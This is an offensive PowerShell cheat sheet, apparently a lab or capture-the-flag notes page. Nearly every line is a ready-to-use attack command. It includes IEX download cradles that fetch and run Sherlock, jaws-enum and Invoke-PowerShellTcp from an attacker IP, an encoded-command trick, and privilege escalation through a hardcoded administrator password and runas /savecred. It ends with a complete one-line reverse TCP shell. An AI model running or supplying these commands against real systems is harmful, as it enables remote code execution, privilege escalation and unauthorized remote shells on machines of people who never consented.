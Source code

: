 ```
powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/jaws-enum.ps1');"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Sherlock.ps1'); "

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Sherlock.ps1')

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/powershell_attack.txt')

```

#### Powershell run function from file
```
powershell -File script.ps1 -Command My-Func
powershell -File Sherlock.ps1 -Command Find-AllVulns
powershell -File jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

#### Powershell Encoded shell
```
cat shell3 | iconv --to-code UTF-16LE |   base64 -w 0
powershell -EncodedCommand JwBtAGkAawBlAGYAcgBvAGIAYgBpAG4AcwAuAGMAbwBtACcA
```

#### Powershell exploit Auto-login
```
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds =New-Object System.Management.Automation.PSCredential('administrator', $passwd)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.16.112/Invoke-PowerShellTcp.ps1')" -Credential $creds

```

#### Powershell exploit Runas
```
runas /profile /savecred /user:ACCESS\Administrator "cmd /c ping -n 1 10.10.16.112" 

runas /profile /savecred /user:ACCESS\Administrator "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Invoke-PowerShellTcp.ps1')"

runas /user:ACCESS\Administrator /savecred "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.36/Invoke-PowerShellTcp3.ps1')"

```
#### Powershell reverse tcp
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII
).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

